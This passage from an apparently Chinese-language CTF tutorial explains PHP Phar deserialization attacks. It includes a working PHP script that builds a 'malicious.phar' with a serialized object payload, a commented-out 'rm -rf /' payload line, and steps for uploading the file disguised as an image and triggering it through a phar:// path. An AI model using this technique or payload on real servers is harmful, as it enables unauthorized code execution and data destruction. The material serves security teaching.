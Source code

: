         @unlink("malicious.phar"); // Clean up previous file
        
        // Create Phar object
        $phar = new Phar("malicious.phar"); 
        $phar->startBuffering();
        
        // Set stub (mandatory part)
        $phar->setStub("<?php __HALT_COMPILER(); ?>"); 
        
        // Create the vulnerable object with payload
        $obj = new TargetClass();
        $obj->data = "/var/www/html/pwned.txt"; // Payload data
        // Or: $obj->data = "rm -rf /"; 
        
        // Set the object as metadata (this gets unserialized)
        $phar->setMetadata($obj); 
        
        // Add a dummy file (required to create a valid Phar)
        $phar->addFromString("test.txt", "test data"); 
        
        $phar->stopBuffering();
        
        echo "malicious.phar created.\n";
        ?>
        ```
    3.  **上传/放置 Phar 文件:** 将生成的 `malicious.phar` 文件上传到目标服务器的可访问位置（例如通过文件上传漏洞），或者使其可通过 SSRF 等方式被服务器的文件操作函数访问。**注意：文件名后缀不重要，可以是 `.jpg`, `.txt` 等，只要内容是 Phar 格式即可。**
    4.  **触发反序列化:** 找到目标应用中调用文件操作函数（如 `file_exists`, `fopen`, `file_get_contents`, `is_dir` 等）的地方，并控制其参数指向上传的 Phar 文件，使用 `phar://` 伪协议包装路径。
        例如，如果存在 `file_exists($_GET['path'])`，则访问 `?path=phar:///path/to/uploaded/malicious.jpg`。
    5.  PHP 文件系统函数处理 `phar://` 路径时，自动解析 Phar 文件，反序列化其元数据（即我们构造的 `$obj`），触发 `TargetClass` 的魔术方法，执行 Payload。
*   **示例 (Level 9 - Phar反序列化):**
    *   假设 `phar.php` 用于生成 Phar 文件，`index.php` 存在文件操作函数。
    ![Phar反序列化 1](/hello_ctf/images/ser25.png) (生成 Phar 的代码 phar.php)